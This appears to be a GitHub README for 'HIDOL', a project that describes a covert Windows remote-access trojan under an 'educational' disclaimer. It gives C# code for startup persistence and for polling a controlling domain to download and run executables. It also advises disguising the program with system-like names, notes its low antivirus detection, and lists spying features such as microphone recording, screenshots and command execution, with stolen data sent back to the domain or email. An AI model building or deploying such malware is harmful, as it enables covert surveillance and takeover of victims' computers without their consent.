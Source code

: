 <center>
![HIDOL](https://i.imgur.com/8IpAnGf.png)
<h3>The High Doses Of Lemon Project</h3>Experimental intelligence gathering from devices compromised with HIDOL
<br>
</center>

# Disclaimer
- I, the creator, am in no way responsible for any actions that you may make using this information. 
- You take full responsibility for any action taken using this information. 
- Please take note that this document was designed for educational purposes and should never be used maliciously. 

# Introduction
Cyber threats are one of the biggest threats faced by National Security today. According to the October 2020 report of the Homeland Threat Assessment by the Department of Homeland Security, **Cyberattacks** remain the number one threat. Taken from <a href="https://www.dhs.gov/sites/default/files/publications/2020_10_06_homeland-threat-assessment.pdf" target="_blank">dhs.gov</a>:
> Cyber threats to the Homeland from both nation-states and non-state actors will remain acute. U.S. critical infrastructure faces advanced threats of disruptive or destructive cyber-attacks. Federal, state, local, tribal and territorial governments, as well as the private sector, will experience an array of cyber-enabled threats designed to access sensitive information, steal money, and force ransom payments.

In order, to combat Cyberattacks against a nation or country, an organization should have the ability to distinguish, imitate and ace the methods of present cyberattacks. 
> This is where intelligence comes in.

# How it works
Several variables contribute to how HIDOL functions properly. A combination of covert communications while maintaining stealth is the key to how HIDOL functions. Take a look at the function diagram below:
<center>
	![HIDOL function diagram](https://i.imgur.com/qtW96n5.png)
</center>
Contrary to what you think, HIDOL is not one single program. Like i said before, several variables contribute such as **covert communications**; we shall use Python as the programming language for the control panel, as Python is extremely useful and much easier when working with scraping. 

We shall have the Target application created using C#. C# is one of the best options when targeting Windows only programs, but Java or something else might do. The app should be named something unsuspicious like **Runtime Dllhost** or **webUtc**. There will be a timer with an interval of seconds to visit the referrer site and check for the latest instruction. The target app will make sure it is set to *Run on startup* without administrative rights. This is possible to do so using a simple copy:
```csharp
static void AddToStartup() {
    try {
    	string exe_path = Application.ExecutablePath;
    	string startup_path = Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + System.AppDomain.CurrentDomain.FriendlyName;

        System.IO.File.Copy(exe_path, startup_path);
    }
    catch { }
}
```

Having a domain or DNS hosted is a must, as both the control panel and the target application depends on having a referrer in which communications and information posts takes place.

A normal conversation between the control panel, the referrer and the target app would need an instruction. The control panel (a.k.a you) edits a webpage (of DNS or domain) string. For example, you want the target app to download a file and run it. The comparison between the pseudo instruction and the string that the program would understand is:
- Pseudo - instruction: `Download file from https://example.com/example.exe`
- String displayed on DNS: `DOWNLOAD https://example.com/example.exe`

When the target app makes the next web request, it will undergo a function like this:
```csharp
//make instruction to site and set contents to string
string instruction = Request(*SITE*);

if (instruction.Contains("DOWNLOAD")) {
    //extract instruction from site
    string[] splitted = instruction.Split(' ');
    string url = splitted[1].ToString();

    //acknowledge file as .exe
    string path = Application.StartupPath + "\\" + "program.exe";

    //download the program
    WebClient Client = new WebClient();
    Client.DownloadFile(new Uri(url), path);

    //run file
    System.Diagnostics.Process.Start(path);
}
```

Up to this point, the downloaded program runs and captures information such as OS information and local IP address. The program then posts that information back to the DNS on a separate page, where it logs the info. The control panel would then login to that DNS or domain to gather the information which was stored. But we may also use SMTP using Gmail to send the info to your email.

#Usage
We can get very creative and add functions which will guarantee (almost) full control over the target computer. Such as the following:
- Record the device microphone for a given amount of time
- Take a screenshot of the target's computer
- Download a file and run it (e.g: .mp3, .exe)
- Run a CMD command (we would be able to find local files this way)
- Display message to the target device
- Run the browser to a specific URL
- Stay stationary/Stop any previous instruction

There is no doubt that a program with these capabilities would raise the suspicion of **Antivirus softwares**. According to <a href="https://www.virustotal.com/gui/file/005f6a68736937d2ed265a2dbee7123a72f5a47abfd2db24349d6c636c7d2439/detection">virustotal.com</a>, the target app had a **4** out of **72** suspicion rate (which is not bad).

#Deployment
- Since we are using C# as the target app language, we must ensure that the target device has a .NET framework installed. We shall use framework version 3.5 as according to <a href="https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies#net-framework-35">docs.microsoft.com</a>, version 3.5 is already included in Windows 10, 8.1, 8 and 7. So we can be sure that the target device has already satisfied this requirement.
- To get HIDOL to work, we need a target device to compromise with. This means finding a target who uses the computer. And somehow finding a way to get the target to double-click on the target app. Otherwise, you may have physical access to the computer, you can do it yourself. All it takes is a double-click.
- From that moment you double-clicked, the target app will remain indefinitely. We may want to add an `Uninstall` function, in case the target user finds out.
- Finally, we will be able to conduct our experiment on the target device.

#Pros and Cons
###Pros
- An alternative to information gathering using port forward
- Does not require administrative rights
- Able to conduct functions as a normal user
- (Almost) free from antivirus software
- Access to files, drivers, etc
- Being able to conduct stealth

###Cons
- Tough installation
- Delayed instruction during timer interval
- Not real-time information
- Unable to conduct multiple tasks at once

#Conclusion
There are multiple ways of gathering intelligence, for government agencies, this would be a much easier task. The intelligence community seeks to reduce uncertainty and provide warning about potential threats to its National security. Per the example above, we have used a fixed environment as an operating system, and we were able to exploit that environment even with its limitations. By adding these methods to the existing capabilities of cybersecurity, we're not only bolstering our security operations effectiveness, but we are also greatly improving the safety and protection against these techniques, in the cyber world.

#Credits
- [Robin Hannan Janssen](https://github.com/robinhannanjanssen) - Lead designer
